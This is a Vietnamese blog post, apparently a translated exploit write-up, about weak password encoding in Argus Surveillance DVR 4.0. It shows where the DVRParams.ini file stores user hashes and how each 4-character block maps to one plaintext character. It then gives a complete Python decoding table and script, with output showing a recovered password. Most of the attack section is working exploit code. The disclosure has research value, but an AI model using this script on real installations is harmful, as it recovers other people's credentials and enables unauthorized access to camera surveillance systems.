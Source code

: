 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![](https://i.imgur.com/KYcjQOM.png)
+ Đã tạo một tài khoản thử nghiệm với kiểm tra tên người dùng và kiểm tra mật khẩu

![](https://i.imgur.com/cbwtBsN.png)
+ Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm 

+ Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B`vì mật khẩu của  đã được kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau `t`

+ Điều này xác nhận rằng `t=E03B` , Tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm
+ ![](https://i.imgur.com/cZhNqwc.png)
+ Thật thú vị, hãy thay đổi mật khẩu thành `1234567890` (10 ký tự)
![](https://i.imgur.com/trhdvQE.png)
+ Đây là hàm băm mật khẩu mới trong `DVRParams.ini`
![](https://i.imgur.com/NM50Tbq.png)
+ Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4)

+ Tương tự, tôi đã thay đổi mật khẩu thành `abc...xyz`và `ABC...XYZ`và ghi lại các giá trị cho mỗi ký tự

+ Dựa trên những phát hiện ở trên, tôi đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D


